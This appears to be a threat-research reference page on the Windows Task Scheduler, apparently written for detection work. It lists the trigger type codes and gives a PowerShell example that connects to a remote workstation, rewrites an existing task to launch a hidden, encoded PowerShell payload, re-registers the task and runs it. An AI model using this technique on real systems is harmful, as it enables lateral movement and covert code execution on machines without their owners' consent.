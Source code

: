 ## Task Triggers
* TASK_TRIGGER_EVENT - 0 - Starts the task when a specific event occurs.
* TASK_TRIGGER_TIME - 1 - Starts the task at a specific time of day.
* TASK_TRIGGER_DAILY - 2 - Starts the task daily.
* TASK_TRIGGER_WEEKLY - 3 - Starts the task weekly.
* TASK_TRIGGER_MONTHLY - 4 - Starts the task monthly.
* TASK_TRIGGER_MONTHLYDOW - 5 - Starts the task every month on a specific day of the week.
* TASK_TRIGGER_IDLE - 6 - Starts the task when the computer goes into an idle state.
* TASK_TRIGGER_REGISTRATION - 7 - Starts the task when the task is registered.
* TASK_TRIGGER_BOOT - 8 - Starts the task when the computer boots.
* TASK_TRIGGER_LOGON - 9 - Starts the task when a specific user logs on.
* TASK_TRIGGER_SESSION_STATE_CHANGE - 11 - Triggers the task when a specific session state changes.

## Interact with Task Scheduler Remotely

### Powershell - Schedule.Service COM Object
```Powershell
# connect to Task Scheduler:
$service = New-Object -ComObject Schedule.Service
$service.Connect("WORKSTATION6")

# Get task folder that contains tasks:
$folder = $service.GetFolder('\Microsoft\Windows\')

# Example: Root Task Container:
$folder = $service.GetFolder('\')

# Enumerate Specific Task
$ward0gtask = $folder.GetTask('Ward0g')
$alltasks = $folder.GetTasks(0)

# get task definition and change it (i.e Arguments)
$taskdefinition = $ward0gtask.Definition
$taskdefinition.Actions | ForEach-Object {$_.Path = "powershell"}
$taskdefinition.Actions | ForEach-Object {$_.Arguments = "-noP -sta -w 1 -enc SQBGACgAJABQAFMAVgBFAFIAUwBpAE8ATgBUAGEAQgBMAGUALgBQAFMAVgBlAHIAUwBpAE8AbgAuAE0AY...."}

# write back changed task definition:
# 4 = Update
$folder.RegisterTaskDefinition($task.Name, $taskdefinition, 4, $null, $null, $null)

# Execute Task
$NewTask = $folder.GetTask("Ward0g")
$NewTask.run.Invoke(@(''))

# Stop Task
$NewTask.stop(0)
```

## Security Event Logs
